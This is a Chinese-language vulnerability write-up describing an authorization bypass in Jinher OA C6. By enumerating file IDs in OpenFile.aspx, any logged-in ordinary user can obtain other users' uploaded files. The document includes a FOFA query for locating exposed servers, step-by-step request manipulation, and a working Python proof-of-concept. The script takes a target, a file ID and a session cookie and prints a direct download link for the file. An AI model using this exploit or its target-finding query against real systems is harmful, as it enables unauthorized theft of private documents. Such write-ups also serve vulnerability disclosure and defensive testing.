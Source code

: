 # 金和OA C6 后台越权敏感文件遍历漏洞

## 漏洞描述

金和OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件

## 漏洞影响

> [!NOTE]
>
> 金和OA C6

## FOFA

>[!NOTE]
>
>app="Jinher-OA"

## 漏洞复现

登录后点击信息交流，发起协同页面

![](http://wikioss.peiqi.tech/vuln/jh-5.png)

上传附件并上传发送给目标

> [!NOTE]
>
> 这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程

![](http://wikioss.peiqi.tech/vuln/jh-6.png)

成功收到上传的附件

![](http://wikioss.peiqi.tech/vuln/jh-7.png)

点击查看时抓包，发现一个带有文件ID的请求包

![](http://wikioss.peiqi.tech/vuln/jh-8.png)

返回了几个参数

```
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

其中我们注意到 strFilePath 为文件的存储地址，我们更改 id参数为另一个值，且测试后发现 name文件名参数无关紧要

![](http://wikioss.peiqi.tech/vuln/jh-9.png)

更改ID后发送请求包发现获得另一个文件的信息

访问Url，注意 **type参数 ** 需要为正确的文件后缀才可以访问

```
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```

![](http://wikioss.peiqi.tech/vuln/jh-10.png)

这里更换一个普通用户测试是否可行，尝试遍历 id

![](http://wikioss.peiqi.tech/vuln/jh-12.png)

![](http://wikioss.peiqi.tech/vuln/jh-11.png)

存在 **strFilePath参数** 则是存在文件，为空则是文件已经不存在

同时抓包下载文件页面也可以看到可获取的参数

**FileID 与 FileIDCode**

![](http://wikioss.peiqi.tech/vuln/jh-13.png)

于是只需要通过刚刚的ID遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限

## 漏洞利用POC

> [!NOTE]
>
> POC只检测是否存在漏洞，且漏洞存在于后台需要登录
>
> 运行后访问链接即可下载文件

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 金和OA C6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_id, cookie):
    vuln_url = target_url + "/C6/control/OpenFile.aspx?id={}&name=&type=pdf".format(file_id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie":cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 Url: {}\033[0m".format(vuln_url))
        if "strFilePath =" in response.text and response.status_code == 200:
            strFilePath = re.findall(r"var strFilePath = '(.*?)';", response.text)[0]
            strFileType = strFilePath[-3:]
            strFileIDCode = re.findall(r"var strFileIDCode='(.*?)';", response.text)[0]
            strId = re.findall(r"var strId = '(.*?)';", response.text)[0]
            sid = re.findall(r'ASP.NET_SessionId=(.*?);', cookie)[0]
            if strFilePath != "":
                print("\033[36m[o] 目标 {} 存在漏洞, 获取文件信息:\n[o] 文件路径：{}\n[o] 文件类型：{}\n[o] 文件ID code：{}\n[o] 文件编号： {}\033[0m".format(target_url, strFilePath, strFileType,strFileIDCode, strId ))
                print("\033[32m[o] 文件下载链接为: {}/C6/JHSoft.Web.CustomQuery/uploadFileDownLoad.aspx?Decrypt=&FileID={}&FileIDCode={}&sid={}".format(target_url, strId, strFileIDCode, sid))
            else:
                print("\033[31m[x] 目标 {} 文件不存在     \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_id = str(input("\033[35mFile_id >>> \033[0m"))
    cookie = str(input("\033[35mCookie  >>> \033[0m"))
    POC_1(target_url, file_id, cookie)
```

![](http://wikioss.peiqi.tech/vuln/jh-14.png)